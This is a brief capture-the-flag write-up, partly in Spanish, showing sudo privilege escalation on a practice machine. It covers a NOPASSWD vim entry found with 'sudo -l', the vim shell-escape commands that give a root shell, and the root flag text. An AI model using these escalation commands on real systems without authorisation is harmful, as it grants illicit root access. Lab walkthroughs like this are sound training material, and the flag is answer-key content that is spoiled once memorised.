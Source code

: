 ### What can you leverage to spawn a privileged shell?

vim
#### Migramos a otro a root, escapando de vim

```
sudo -l

User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim



```
#### Ejecutamos vim como sudo y escapamos al shell'
- la info sale de gftobins

```
>> escapar del vim

sudo vim
:!/bin/bash
exit
<Enter>
:q

o

sudo vim -c ':!/bin/sh'
<Enter>
exit
:q


exit


```

### What's the root flag?
#### Obtenemos la banera de root

```
root@Machine:/home# cd /root
root@Machine:/root# ls
root.txt
root@Machine:/root# cat root.txt

W3ll d0n3. You made it!


```
